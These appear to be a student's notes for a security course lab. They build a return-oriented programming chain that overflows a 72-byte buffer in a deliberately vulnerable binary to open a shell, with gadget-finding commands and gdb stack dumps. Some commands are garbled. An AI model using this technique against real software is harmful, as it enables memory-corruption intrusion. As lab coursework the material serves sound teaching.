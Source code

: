 

1) our offset to start is still 72 as code of task 1 and task 2 are same so ASLR offsets will be same

2) get exit gadget(same as task 1-objdump command)

get return gadget(here is x126f)

0x000000000040126f : nop ; ret

then get normal gadget for rdi, rsi, return(same as task 1)

get gadget for get_id(this is address of first line of the function which we get from objdump command only)

get gadgets for get_this and get_that(again first lines of both functions using objdump command)

 objdump -d task12 | grep get_id-get x401331

  objdump -d task12 | grep get_this-x401590

  objdump -d task12 | grep and_get_that-get x4015b4

  ROPgadget --binary task12 | grep ": nop ; ret" 

3) now start doing the attack by chaining the gadgets

initialize a variable for rop chain and create a buffer(like task 1) with length 72 so we can fill "A" iin that to overflow the buffer

we initialize the rop chain to start from buffer/collector+72(our fixed offset)

fill buffer with 72 "A"

4) now build the rop chain

 add noop return gadget to align stack > add get_id gadget > add noop return gadget > add get_id gadget > add noop return gadget > add get_id gadget > add noop return gadget > ad get_this gadget > add noop return gadget > add proper gadget > add x01 for rdi > add x02 for rsi > add no op gadget > add get_that gadget to open shell > add no op gadget > add exit gadget to exit cleanly

 these are 16 words(steps) and 9 words for the 72 bytes- in total we have 9+16=25 words

 now write this whole collector/buffer to the task2-payload file with length=8*25=200 bytes

where to find and check if our payload is perfectly aligned-go to last instruction of get_lightsaber which is 0x4013dc and then run command x/40gx $rsp to see contents of the stack there-you will see 9 words(each word containing 8 "A") followed by the other 16 words we have added

 sample output:

 Breakpoint 2, 0x00000000004013dc in get_lightsaber () at cs642-victim-task12.c:40
40      in cs642-victim-task12.c
(gdb) x/40gx $rsp
0x7fffffffe000: 0x4141414141414141      0x4141414141414141
0x7fffffffe010: 0x4141414141414141      0x4141414141414141
0x7fffffffe020: 0x4141414141414141      0x4141414141414141
0x7fffffffe030: 0x4141414141414141      0x4141414141414141
0x7fffffffe040: 0x4141414141414141      0x000000000040126f
0x7fffffffe050: 0x0000000000401331      0x000000000040126f
0x7fffffffe060: 0x0000000000401331      0x000000000040126f
0x7fffffffe070: 0x0000000000401331      0x000000000040126f
0x7fffffffe080: 0x0000000000401590      0x000000000040126f
0x7fffffffe090: 0x0000000000401608      0x0000000000000001
0x7fffffffe0a0: 0x0000000000000002      0x000000000040126f
0x7fffffffe0b0: 0x00000000004015b4      0x000000000040126f
0x7fffffffe0c0: 0x00000000004011f4      0x0000000000401300
0x7fffffffe0d0: 0x00000001ffffe1b0      0x00007fffffffe1c8
0x7fffffffe0e0: 0x0000000000000000      0x850940d281d2d8ee
0x7fffffffe0f0: 0x00007fffffffe1c8      0x00000000004013de
0x7fffffffe100: 0x0000000000403e00      0x00007ffff7ffd040
0x7fffffffe110: 0x7af6bf2d4050d8ee      0x7af6af659b58d8ee
0x7fffffffe120: 0x00007fff00000000      0x0000000000000000